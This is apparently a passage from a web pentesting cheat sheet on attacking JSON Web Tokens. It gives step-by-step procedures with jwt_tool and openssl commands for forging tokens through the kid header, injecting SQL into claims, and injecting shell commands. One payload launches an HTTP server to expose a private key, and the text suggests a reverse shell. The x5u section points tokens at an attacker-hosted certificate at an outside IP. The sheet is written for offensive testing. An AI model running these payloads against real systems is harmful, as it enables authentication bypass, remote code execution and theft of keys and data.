     4. At the bottom of the tab, click Sign, then select the symmetric key that you generated in the previous section.
    ```

    ```python
    # Use arbitrary files to verify
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. If there is kid in header section of JWT_token then forge a new JWT token using jwt_tool
    		'python3 jwt_tool.py <JWT> -I -hc kid -hv "../../../../../../../../dev/null" -S hs256 -p ""'
    * Alternatively, we may utilise the content of any file in the web root, such as CSS or JS, to validate the Signature.
    		'python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"'
    4. Manipulate payload section and now use the generated token in request.
    5. Done, Forward the Request.

    # SQL injection
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Switch to JSON Web Token Plugin tab and manipulate kid with sqli payload.
    4. You can try SQLi not only in kid but in any field of payload section.
    		"python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem"
    5. Done, Forward the request and escalate sqli further.

    # Command injection
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Switch to JSON Web Token Plugin tab and manipulate kid with os commands payload.
    	"kid: key.crt; whoami && python -m SimpleHTTPServer 1337 &"
    4. Now use the forged JWt token in request
    5. Check if you can connect to the server on port 1337 or instead use reverse shell in payload and check if you get connection back
    6. DOne
    In a scenario where the "kid" parameter contains a path to the file with the key and this path is being used inside an executed command you could be able to obtain RCE and expose the private key with a payload like the following: 
    /root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337&
    ```
*   **Other Headers Attacks |** [JWT Vulnerabilities (Json Web Tokens) - HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#x5u)

    ```python
    x5u Claim Misuse:
    Note: The algorithm used for signing the token is “RS256”.
    The token is using x5u header parameter which contains the location of the X.509 certificate to be used for token verification.

    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Decode the JWT token and check if it contents x5u attribute in Header section.
    4. Creating a self-signed certificate
    			"openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt"
    5. Extracting the public key from the generated certificate:
    			"openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem"
    6. Use Jwt.io and paste the public key (publicKey.pem) and the private key (attacker.key) in their respective places in the "Decoded" section.
    7. Set "x5u: <http://192.87.15.2:8080/attacker.crt>" you can use repl.it to host
    8. Done Use forged jwt token in request.
